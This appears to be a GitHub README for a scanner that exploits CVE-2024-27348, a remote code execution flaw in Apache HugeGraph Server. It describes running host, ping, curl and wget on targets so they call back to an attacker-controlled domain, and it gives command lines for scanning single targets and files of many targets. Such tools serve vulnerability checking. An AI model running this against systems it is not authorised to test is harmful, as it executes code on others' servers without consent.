 # CVE-2024-27348
**For Ethical Usages only, Any harmful or malicious activities are not allowed. And it's your own responsability**

- You Can Read the analysis for the vulnerability from here: https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/

Apache HugeGraph Server RCE Scanner ( CVE-2024-27348 ), The Scanner will run 4 commands on the target (`host`,`ping`,`curl`,`wget`), As in case one of the utilities not found.

![HugeGraphRCE](https://github.com/Zeyad-Azima/CVE-2024-27348/assets/62406753/cb2dc964-23a2-4054-bb79-3757952a2ab0)

### Ping logs from targets

![Ping_Logs_Fromm_Targets](https://github.com/Zeyad-Azima/CVE-2024-27348/assets/62406753/17a5d866-6561-4d80-8998-18ec26d31dda)

### Dns lookup, web requests from targets

![http_dns_requests_from_targets](https://github.com/Zeyad-Azima/CVE-2024-27348/assets/62406753/5c285e43-d32e-41a2-994f-d1229ea8be8d)

# Usage
```
usage: [-h] [--file FILE] [--target TARGET] [--port PORT] [--domain DOMAIN]

Exploit CVE-2024-27348 Gremlin RCE in HugeGraph server from 1.0.0 Before 1.3.0

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  File containing target addresses and ports W/ the following format: http://target,port e.x: http://localhost,8080
  --target TARGET, -t TARGET
                        Target IP address/domain
  --port PORT, -p PORT  Target port
  --domain DOMAIN, -d DOMAIN
                        Attacker domain (Your own domain to check ping/requests log)

```
## Single Target
```
python3 CVE-2024-27348_Scanner.py -t http(s)://target_address -p port -d your_domain/ip
```
## File
```
python3 CVE-2024-27348_Scanner.py -f targets_file -d your_domain/ip
```
- File content format example in `targets.txt`
